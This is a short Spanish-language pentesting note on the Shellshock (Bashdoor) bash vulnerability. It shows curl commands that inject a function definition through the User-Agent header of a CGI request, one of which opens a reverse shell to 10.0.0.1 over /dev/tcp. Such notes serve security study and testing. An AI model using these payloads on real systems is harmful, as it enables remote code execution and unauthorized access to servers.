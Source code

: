 Asi es llamada a la familia de bugs provenientes de la *Bash* de *Shell Unix* o tambien conocidas como *Bashdoor*.

Una de la vulnerabilidades encontradas era la manera de hacer un [[RCE]] mediante el *User-Agent* de una peticion.
Extenciones vulnerables
- .cgi
- .pl
- .sh
entre otras.

Un ejemplo seria toparnos con un login y encontrarnos con una de las enteriores extenciones, por lo tanto con *burpsuite* podemos *interceptar* la peticcion y cambiar el *User-Agent* para ejecutar comandos.

	curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/

En este caso con el comando *eject* se abre la disquetera, pero nostros nos intera ganar acceso, asi que con ayuda de *monky pentester* hacemos un *one liner* de una [[Revert shell]] por tcp.

	curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/443 0>&1" http://example.com/

